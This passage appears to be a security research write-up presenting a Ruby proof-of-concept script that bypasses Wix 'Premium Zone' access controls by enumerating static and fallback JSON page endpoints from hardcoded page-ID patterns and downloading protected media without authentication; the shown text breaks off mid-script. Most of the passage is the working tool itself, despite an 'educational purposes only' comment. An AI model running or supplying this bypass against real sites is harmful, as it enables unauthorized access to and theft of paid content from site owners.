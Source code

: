 To demonstrate the complete authentication bypass, I developed a Ruby script that automatically:

1. **Enumerates** all WIX API endpoints for a given site
2. **Extracts** protected content metadata  
3. **Downloads** all premium media files without authentication

```ruby
#!/usr/bin/env ruby
# WIX Premium Zone Bypass - Security Research PoC
# Created for educational purposes only

require 'json'
require 'rest-client'
require 'fileutils'

class WixPremiumBypass
  
  def initialize(site_id)
    @site_id = site_id
    @base_image_url = "http://static.wixstatic.com/media/"
    @output_dir = "./extracted_content/"
    
    FileUtils.mkdir_p(@output_dir) unless Dir.exist?(@output_dir)
    puts "[+] WIX Premium Zone Bypass Tool initialized"
    puts "[+] Target Site ID: #{site_id}"
  end
  
  def generate_api_endpoints
    # Page ID patterns discovered through analysis
    page_patterns = [
      "a051c9896b38484b0af98d41c78aad95",
      "a26927faf95266eb3e90539795f911c7", 
      "9970654c91ff1e68cb136b2facf02541",
      "e0b5e6e39a8f34d38d52cb117145b7a2",
      "c453d26b8f1ad045815c326852f6ed9e",
      "65b4d7c00981596fedcc0b29630dbd63",
      "94e133e7bdb916e1edcac338cae838e5",
      "55de87fc383d68f53ad84448181dccfa",
      "a50043065395619bbe15c4545cabe038",
      "edb132d4be40dee794296337c610f8f5"
    ]
    
    endpoints = []
    
    page_patterns.each do |pattern|
      page_id = "#{@site_id}_#{pattern}"
      
      # WIX's three-tier fallback architecture
      endpoints << "http://static.wixstatic.com/sites/#{page_id}_70.json.z?v=3"
      endpoints << "http://staticorigin.wixstatic.com/sites/#{page_id}_70.json.z?v=3"
      endpoints << "http://fallback.wix.com/wix-html-editor-pages-webapp/page/#{page_id}_70.json"
    end
    
    endpoints
  end
  
  def exploit_premium_zone
    json_responses = []
    api_endpoints = generate_api_endpoints
    
    puts "[+] Enumerating #{api_endpoints.length} WIX API endpoints..."
    
    # Phase 1: API Discovery and Data Extraction
    api_endpoints.each do |api_url|
      begin
```